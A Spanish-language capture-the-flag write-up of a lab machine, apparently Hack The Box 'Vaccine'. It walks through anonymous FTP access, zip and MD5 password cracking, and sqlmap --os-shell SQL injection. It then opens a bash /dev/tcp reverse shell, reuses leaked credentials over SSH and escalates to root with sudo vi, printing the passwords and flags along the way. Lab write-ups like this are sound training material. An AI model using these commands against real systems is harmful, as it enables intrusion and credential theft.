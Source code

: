 ```yaml
---
title: Máquina Vaccine
published: true
---
```


Jorge Marco Arráez

Temas tratados:

*   Crackeo de fichero .zip

*   Contraseñas a partir de hashes

*   Vulnerabilidades de bases de datos

## [](#header-3) 1)   Besides SSH and HTTP, what other service is hosted on this box?

```
nmap -sCV --min-rate 5000 -n -oG nmap/allPorts -Pn $IP
```

FTP en el puerto 21
SSH en el puerto 22 -> Versión: OpenSSH 8.0p1 Ubuntu 6ubuntu0.1
HTTP en el puerto 80 -> Versión del servidor: Apache httpd 2.4.41 ((Ubuntu))

La página web es la siguiente:

![imagen de login](../assets/capturas_maquinas/vaccine/1-login.png)

## [](#header-3) 2)    This service can be configured to allow login with any password for specific username. What is that username?


Como ya hemos visto en máquinas anteriores, ftp permite registrarse sin contraseña al usuario "anonymous".


## [](#header-3) 3)  What is the name of the file downloaded over this service?

al conectarme con ftp, veo que usa la versión vsFTPd 3.0.3

```
username = "anonymous"
password = ""
get backup.zip
```

## [](#header-3) 4) What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

![texto_alternativo](../assets/capturas_maquinas/vaccine/2-john.png){width=width height=height}

```
zip2john backup.zip > hash.txt

john -w=/home/jorge/Descargas/rockyou.txt hash.txt
john --show 
```

la contraseña es: 741852963


## [](#header-3) 5)  What is the password for the admin user on the website?

La contraseña no está en plano en el arhchivo .php, lo que está es el hash md5 de la contraseña.

![texto_alternativo](../assets/capturas_maquinas/vaccine/3-contra_admin.png)

El hash es: "2cb42f8734ea607eefed3b70af13bbd3"

Con crackstation.net podemos encontrar la contraseña: "qwerty789"

![texto_alternativo](../assets/capturas_maquinas/vaccine/4-crackstation.png)

## [](#header-3) 6)    What option can be passed to sqlmap to try to get command execution via the sql injection?

Si ejecutamos sqlmap -h para ver la ayuda del programa, vemos que la opción que nos interesa es --os-shell

![texto_alternativo](../assets/capturas_maquinas/vaccine/6-sqlmap.png)

## [](#header-3) 7)    What program can the postgres user run as root using sudo?

vi

## [](#header-3) 8)  Submit user flag

Usando sqlmap conseguimos una os-shell.

![texto_alternativo](../assets/capturas_maquinas/vaccine/7-comadno_sqlmap.png)


Donde el valor de cookie es el que obtenemos al iniciar sesion en la página como admin con la contraseña qwerty789.

obtenemos acceso a una shell donde podemos establecer una reverse shell con nuestro ordenador con 

```
bash -c "bash -i >& /dev/tcp/10.10.15.224/443 0>&1"
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/9-reverse.png)


Ahora hay que convertir esta reverse shell en una reverse shell estable para poder trabajar sin que expire la sesión.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

cd /var/lib/postgresql
xxd user.txt
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/10-userflag.png)

```
user=ec9b13ca4d6229cd5cc1e09980965bf7
```

## [](#header-3) 9)  Submit root flag


```
cd /var/www/html
cat dashboard.php
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/11-dashboardphp.png)

username=postgres
password=P@s5w0rd!

Podemos usar esas credenciales para establecer una sesión ssh.

```
ssh postgres@10.129.95.174
P@s5w0rd!
```

Así es más cómodo ya que no hay que estabilizar la shell.
Una vez dentro, vemos que privilegios tiene el usuario postgres

![texto_alternativo](../assets/capturas_maquinas/vaccine/12-sudo-l.png)

Puede ejecutar /bin/vi para editar el archivo pg_hba.conf

Busco en internet y encuentro la siguiente página:

<a href="https://gtfobins.github.io/gtfobins/vi/#sudo">

Al añadir las líneas especificadas en la sección shell b):

```
vi
:set shell=/bin/sh
:shell
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/13-rootflag.png)

Nos hemos convertido en root.

```
root=dd6e058e814260bc70e9bbdef2715849
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/14-pwn.png)